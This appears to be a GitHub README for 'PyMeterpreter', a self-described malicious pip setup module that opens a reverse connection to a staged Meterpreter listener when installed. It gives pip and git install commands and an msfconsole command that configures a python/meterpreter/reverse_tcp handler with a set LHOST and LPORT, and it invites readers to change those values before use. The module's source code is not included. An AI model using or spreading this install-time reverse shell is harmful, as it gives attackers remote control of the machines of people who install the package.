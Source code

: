 # PyMeterpreter

This is a malicious Python PIP setup module which connects back to a staged Meterpreter listener.

You'll probably want to clone the repo, and then change your LHOST/LPORT before using ;-)

## Usage

There are a couple of ways to install/run the code:

### Direct from Git repo:
`pip install git+https://github.com/ben0/PyMeterpreter`

### Clone the Git repo:
`git clone https://github.com/ben0/PyMeterpreter`\
`pip install ./PyMeterpreter --upgrade`

### Fire up MSF
`msfconsole -x "use exploit/multi/handler; set payload python/meterpreter/reverse_tcp; set LHOST 172.16.10.10; set LPORT 443; exploit -j"`
